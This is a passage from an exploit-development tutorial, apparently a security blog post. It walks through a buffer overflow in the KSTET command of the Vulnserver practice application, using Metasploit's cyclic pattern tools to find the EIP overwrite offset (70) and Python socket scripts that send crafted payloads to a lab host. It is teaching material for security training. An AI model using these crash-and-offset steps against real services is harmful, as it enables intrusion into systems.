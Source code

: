 OK, let’s start by checking the offset of the crash by creating a cyclic
pattern of 100 characters using `pattern_create.rb` tool from
Metasploit:

``` console
$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

And update our exploit:

``` python
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'<paste pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
```

And check it:

<div class="imgblock">

![Cyclic pattern](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331197/blog/vulnserver-kstet-alternative/offset1_srjfjl.gif)

</div>

As you can see, `EIP` was overwritten with `63413363`. We can check the
offset of that bytes on our cyclic pattern to get the offset on where
`EIP` gets overwritten:

``` console
$ msf-pattern_offset -q 63413363
[*] Exact match at offset 70
```

Now, check that offset by updating our exploit:

``` python
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    b'B' * 4 +
    b'C' * 26
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
```
